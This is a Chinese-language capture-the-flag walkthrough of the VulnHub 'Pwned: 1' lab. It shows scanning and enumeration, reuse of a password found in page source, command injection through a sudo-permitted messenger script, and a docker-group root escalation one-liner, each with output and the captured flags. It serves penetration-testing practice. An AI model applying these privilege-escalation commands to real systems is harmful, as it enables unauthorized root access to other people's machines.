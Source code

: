 # Pwned: 1

2024-5-23 https://www.vulnhub.com/entry/pwnlab-1,507/

difficulty: easy

## IP

192.168.5.29

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fecd90197491aef564a8a5e86f6eef7e (RSA)
|   256 813293bded9be798af2506795fde915d (ECDSA)
|_  256 dd72745d4d2da3623e81af0951e0144a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Pwned....!!
|_http-server-header: Apache/2.4.38 (Debian)
```

21 ftp 不能匿名登陆。

22 ssh banner 上没有提示信息。

看看 80 web 上有什么信息，gobuster 扫描后，发现几个目录链接。

http://192.168.5.29/robots.txt 提示 /nothing

http://192.168.5.29/nothing/nothing.html 是个坑，没东西。

http://192.168.5.29/hidden_text/ 显示了一个 secret.dic，显示了一堆目录。

使用 gobuster，字典为 secret.dic，再次进行扫描。结果 http://192.168.5.29/pwned.vuln/ 这个目录可用。

是一个登陆页面，查看源代码，发现了提示：

```

<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_B!TcH') {
//		echo "welcome"
//		exit();
// }
// else
//	echo "Invalid creds"
// }
?>
```

这个密码估计到死都报不出来，使用这个用户凭据，登陆看看有什么内容，登陆没反应是个死页面，猜想有没有可能是 ssh 的用户凭据，尝试登陆 ssh，登陆成功。

靶场描述说有 3 个旗帜，开始寻找吧。

/home 目录中发现几个账户：ariana、selena

在 share 目录中发现 note.txt：

```
ftpuser@pwned:~/share$ cat note.txt

Wow you are here

ariana won't happy about this note

sorry ariana :(
```

ftpuser 用户没有 sudo、suid、cap、crontab 等特殊设置。

发现了一个 id_rsa 私钥，不知道是 ariana、selena 哪个用户的，下载到 kali 上进行挨个尝试，结果发现是 ariana 的私钥，登陆到 ariana 继续寻找 flag。

找到了第一个 flag：

```
ariana@pwned:~$ cat user1.txt
congratulations you Pwned ariana

Here is your user flag ↓↓↓↓↓↓↓

fb8d98be1265dd88bac522e1b2182140

Try harder.need become root
```

然后发现了另一个提示：

```
ariana@pwned:~$ cat ariana-personal.diary
Its Ariana personal Diary :::

Today Selena fight with me for Ajay. so i opened her hidden_text on server. now she resposible for the issue.
```

好像又没提示出什么东西。

继续按找老套路寻找提权点， sudo -l 发现：

```
(selena) NOPASSWD: /home/messenger.sh
```

利用这个脚本可能切换到 selena 用户，看看源码：

```bash
#!/bin/bash

clear
echo "Welcome to linux.messenger "

users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)

echo "$users"

read -p "Enter username to send message : " name

read -p "Enter message for $name :" msg

echo "Sending message to $name "

$msg 2> /dev/null

echo "Message sent to $name :) "
```

`$msg 2> /dev/null` 这里能够执行带入的命令

```
sudo -u selena /home/messenger.sh

Enter username to send message : ariana

Enter message for ariana :/bin/bash

Sending message to ariana
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

得到了 selena 的权限，得到了第 2 个 flag：

```
cat /home/selena/user2.txt
711fdfc6caad532815a440f7f295c176

You are near to me. you found selena too.

Try harder to catch me
```

另外一个提示文件：

```
selena@pwned:~$ cat selena-personal.diary
Its Selena personal Diary :::

Today Ariana fight with me for Ajay. so i left her ssh key on FTP. now she resposible for the leak.
```

这个提示没什么用，最开始就拿到了 id_rsa

看看 selena 有什么权限，属于 docker 组。

docker images 看到了几个 docker 镜像，让我们看看这几个镜像的构建命令是什么 : docker history imageID

```
selena@pwned:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        3 years ago         88.3MB
<none>              <none>              e13ad046d435        3 years ago         88.3MB
alpine              latest              a24bb4013296        3 years ago         5.57MB
debian              wheezy              10fcec6d95c4        5 years ago         88.3MB
```

可以利用 docker 组用户提权，将宿主机的根目录挂在到 docker 镜像中的/mnt 目录下：

```
selena@pwned:~$ docker run -v /:/mnt --rm -it 10fcec6d95c4 chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /mnt/root
# ls -al
total 28
drwx------  3 root root 4096 Jul 10  2020 .
drwxr-xr-x 18 root root 4096 Jul  6  2020 ..
-rw-------  1 root root  292 Jul 10  2020 .bash_history
-rw-r--r--  1 root root  601 Jul  6  2020 .bashrc
drwxr-xr-x  3 root root 4096 Jul  4  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  429 Jul 10  2020 root.txt
# cat root.txt
4d4098d64e163d2726959455d046fd7c

You found me. i dont't expect this （◎ . ◎）

I am Ajay (Annlynn) i hacked your server left and this for you.

I trapped Ariana and Selena to takeover your server :)

You Pwned the Pwned congratulations :)

share the screen shot or flags to given contact details for confirmation

Telegram   https://t.me/joinchat/NGcyGxOl5slf7_Xt0kTr7g

Instgarm   ajs_walker

Twitter    Ajs_walker
```

